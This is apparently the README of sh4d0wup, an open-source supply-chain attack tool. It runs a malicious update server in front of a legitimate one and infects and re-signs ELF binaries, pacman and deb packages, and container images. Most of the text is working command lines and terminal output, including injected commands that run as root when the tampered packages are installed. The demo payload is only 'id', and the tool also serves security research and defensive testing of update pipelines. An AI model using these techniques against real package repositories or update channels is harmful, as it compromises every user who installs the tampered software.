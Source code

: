 # sh4d0wup

```
% docker run -it --rm ghcr.io/kpcyrd/sh4d0wup:edge -h
Usage: sh4d0wup [OPTIONS] <COMMAND>

Commands:
  bait         Start a malicious update server
  infect       High level tampering, inject additional commands into a package
  tamper       Low level tampering, patch a package database to add malicious packages, cause updates or influence dependency resolution
  keygen       Generate signing keys with the given parameters
  sign         Use signing keys to generate signatures
  hsm          Interact with hardware signing keys
  build        Compile an attack based on a plot
  check        Check if the plot can still execute correctly against the configured image
  req          Emulate a http request to test routing and selectors
  completions  Generate shell completions
  help         Print this message or the help of the given subcommand(s)

Options:
  -v, --verbose...  Turn debugging information on
  -h, --help        Print help information
  -V, --version     Print version information
```

## 👻 What are shadow updates?

Have you ever wondered if the update you downloaded is the same one everybody else gets or did you get a different one that was made _just for you_? Shadow updates are updates that officially don't exist but carry valid signatures and would get accepted by clients as genuine. This may happen if the signing key is compromised by hackers or if a release engineer with legitimate access turns grimy.

`sh4d0wup` is a malicious http/https update server that acts as a reverse proxy in front of a legitimate server and can infect + sign various artifact formats. Attacks are configured in `plots` that describe how http request routing works, how artifacts are patched/generated, how they should be signed and with which key. A route can have `selectors` so it matches only if eg. the user-agent matches a pattern or if the client is connecting from a specific ip address. For development and testing, mock signing keys/certificates can be generated and marked as trusted.

## 📦 Compile a plot

Some plots are more complex to run than others, to avoid long startup time due
to downloads and artifact patching, you can build a plot in advance. This also
allows to create signatures in advance.

```
sh4d0wup build ./contrib/plot-hello-world.yaml -o ./plot.tar.zst
```

## 🦝 Run a plot

This spawns a malicious http update server according to the plot. This also
accepts yaml files but they may take longer to start.

```
sh4d0wup bait -B 0.0.0.0:1337 ./plot.tar.zst
```

You can find examples here:

- [`contrib/plot-archlinux.yaml`](contrib/plot-archlinux.yaml)
- [`contrib/plot-debian.yaml`](contrib/plot-debian.yaml)
- [`contrib/plot-rustup.yaml`](contrib/plot-rustup.yaml)
- [`contrib/plot-curl-sh.yaml`](contrib/plot-curl-sh.yaml)

## 🪄 Infect an artifact

- [`sh4d0wup infect elf`](#sh4d0wup-infect-elf)
- [`sh4d0wup infect pacman`](#sh4d0wup-infect-pacman)
- [`sh4d0wup infect deb`](#sh4d0wup-infect-deb)
- [`sh4d0wup infect oci`](#sh4d0wup-infect-oci)

### `sh4d0wup infect elf`

```
% RUST_LOG=warn sh4d0wup infect elf /usr/bin/sh4d0wup -c id a.out
% ./a.out help
uid=1000(user) gid=1000(user) groups=1000(user),212(rebuilderd),973(docker),998(wheel)
Usage: a.out [OPTIONS] <COMMAND>

Commands:
  bait         Start a malicious update server
  infect       High level tampering, inject additional commands into a package
  tamper       Low level tampering, patch a package database to add malicious packages, cause updates or influence dependency resolution
  keygen       Generate signing keys with the given parameters
  sign         Use signing keys to generate signatures
  hsm          Interact with hardware signing keys
  build        Compile an attack based on a plot
  check        Check if the plot can still execute correctly against the configured image
  completions  Generate shell completions
  help         Print this message or the help of the given subcommand(s)

Options:
  -v, --verbose...  Turn debugging information on
  -h, --help        Print help information
```

### `sh4d0wup infect pacman`

```
% sh4d0wup infect pacman --set 'pkgver=0.2.0-2' /var/cache/pacman/pkg/sh4d0wup-0.2.0-1-x86_64.pkg.tar.zst -c id sh4d0wup-0.2.0-2-x86_64.pkg.tar.zst
[2022-12-09T16:08:11Z INFO  sh4d0wup::infect::pacman] This package has no install hook, adding one from scratch...
% sudo pacman -U sh4d0wup-0.2.0-2-x86_64.pkg.tar.zst
loading packages...
resolving dependencies...
looking for conflicting packages...

Packages (1) sh4d0wup-0.2.0-2

Total Installed Size:  13.36 MiB
Net Upgrade Size:       0.00 MiB

:: Proceed with installation? [Y/n]
(1/1) checking keys in keyring                                         [#######################################] 100%
(1/1) checking package integrity                                       [#######################################] 100%
(1/1) loading package files                                            [#######################################] 100%
(1/1) checking for file conflicts                                      [#######################################] 100%
(1/1) checking available disk space                                    [#######################################] 100%
:: Processing package changes...
(1/1) upgrading sh4d0wup                                               [#######################################] 100%
uid=0(root) gid=0(root) groups=0(root)
:: Running post-transaction hooks...
(1/2) Arming ConditionNeedsUpdate...
(2/2) Notifying arch-audit-gtk
```

### `sh4d0wup infect deb`

```
% sh4d0wup infect deb /var/cache/apt/archives/apt_2.2.4_amd64.deb -c id ./apt_2.2.4-1_amd64.deb --set Version=2.2.4-1
[2022-12-09T16:28:02Z INFO  sh4d0wup::infect::deb] Patching "control.tar.xz"
% sudo apt install ./apt_2.2.4-1_amd64.deb
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
Note, selecting 'apt' instead of './apt_2.2.4-1_amd64.deb'
Suggested packages:
  apt-doc aptitude | synaptic | wajig dpkg-dev gnupg | gnupg2 | gnupg1 powermgmt-base
Recommended packages:
  ca-certificates
The following packages will be upgraded:
  apt
1 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Need to get 0 B/1491 kB of archives.
After this operation, 0 B of additional disk space will be used.
Get:1 /apt_2.2.4-1_amd64.deb apt amd64 2.2.4-1 [1491 kB]
debconf: delaying package configuration, since apt-utils is not installed
(Reading database ... 6661 files and directories currently installed.)
Preparing to unpack /apt_2.2.4-1_amd64.deb ...
Unpacking apt (2.2.4-1) over (2.2.4) ...
Setting up apt (2.2.4-1) ...
uid=0(root) gid=0(root) groups=0(root)
Processing triggers for libc-bin (2.31-13+deb11u5) ...
```

### `sh4d0wup infect oci`

```
% docker pull alpine:edge
% docker save alpine:edge > alpine-edge.tar
% sh4d0wup infect oci alpine-edge.tar infected.tar -c id -t infected:latest
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Original image is referencing config "121d0da757518198deeb7d1df20aaae549834f8bc77195bbf5be1900c0144cff.json": LayerConfig { config: Some(Config { user: Some(""), exposed_ports: None, env: Some(["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"]), entrypoint: None, cmd: Some(["/bin/sh"]), volumes: None, working_dir: Some(""), labels: None, stop_signal: None }), rootfs: Some(RootFs { type: "layers", diff_ids: ["sha256:2f7048230bc73ff091490aa5764f9c160d1a4efe04935da731a22e8d5fcccfcc"] }), extra: {"container_config": Object {"AttachStderr": Bool(false), "AttachStdin": Bool(false), "AttachStdout": Bool(false), "Cmd": Array [String("/bin/sh"), String("-c"), String("#(nop) "), String("CMD [\"/bin/sh\"]")], "Domainname": String(""), "Entrypoint": Null, "Env": Array [String("PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin")], "Hostname": String("457781b778a4"), "Image": String("sha256:28d4c3ce9341a318d475e64365e47a34d5b9ba6c670bed35ce90b2402296ead6"), "Labels": Object {}, "OnBuild": Null, "OpenStdin": Bool(false), "StdinOnce": Bool(false), "Tty": Bool(false), "User": String(""), "Volumes": Null, "WorkingDir": String("")}, "architecture": String("amd64"), "created": String("2022-11-10T20:19:29.043621251Z"), "history": Array [Object {"created": String("2022-11-10T20:19:28.834390785Z"), "created_by": String("/bin/sh -c #(nop) ADD file:51c4407dc777648e8ebc8e124b05feb1807699ade513b6006a9a409f6b0f6f51 in / ")}, Object {"created": String("2022-11-10T20:19:29.043621251Z"), "created_by": String("/bin/sh -c #(nop)  CMD [\"/bin/sh\"]"), "empty_layer": Bool(true)}], "os": String("linux"), "docker_version": String("20.10.12"), "container": String("457781b778a449c9eac455ca1a18300a4041cb2b0d2d3f979460d19d7632ebf7")} }
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Creating new layer in image: "patched"
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Generating filesystem layer for payload: "id"
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Updating tags of image to ["infected:latest"]
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Writing modified manifest...
% docker load -i infected.tar
Loaded image: infected:latest
% docker run -it infected echo hello world
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
hello world
```
